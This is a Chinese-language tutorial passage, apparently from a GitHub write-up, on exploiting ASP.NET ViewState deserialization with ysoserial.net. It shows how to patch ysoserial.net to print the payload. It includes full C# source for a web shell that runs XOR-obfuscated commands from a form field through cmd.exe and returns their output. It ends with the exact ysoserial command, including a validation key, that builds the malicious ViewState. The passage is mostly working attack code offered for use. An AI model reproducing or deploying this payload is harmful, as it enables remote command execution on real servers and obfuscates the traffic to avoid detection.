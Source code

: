 (1)修改ysoserial.net源码，直接读取可用的序列化xaml数据

在https://github.com/pwntester/ysoserial.net/blob/master/ysoserial/Plugins/ViewStatePlugin.cs#L209添加如下代码：

```
Console.WriteLine(payloadString);
Console.WriteLine("The content above is what we need");
Console.WriteLine("-----------");
```

能够在控制台输出Base64编码的序列化xaml数据

编译ysoserial.net，生成ysoserial.exe，在同级目录新建shellPayload.cs，内容如下：

```
class E
{
    static string xor(string s) {
        char[] a = s.ToCharArray();
        for(int i = 0; i < a.Length; i++)
        a[i] = (char)(a[i] ^ 'x');
        return new string(a);
}
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["__Value"];
            cmd = xor(cmd);        
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();            
            output = xor(output);
            context.Response.Write(output);

        } catch (System.Exception) { }
        context.Response.Flush();
        context.Response.End();
    }
}
```

使用ysoserial.exe生成ViewState，命令如下：

```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "shellPayload.cs;System.Web.dll;System.dll;" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="042A94E8"
```
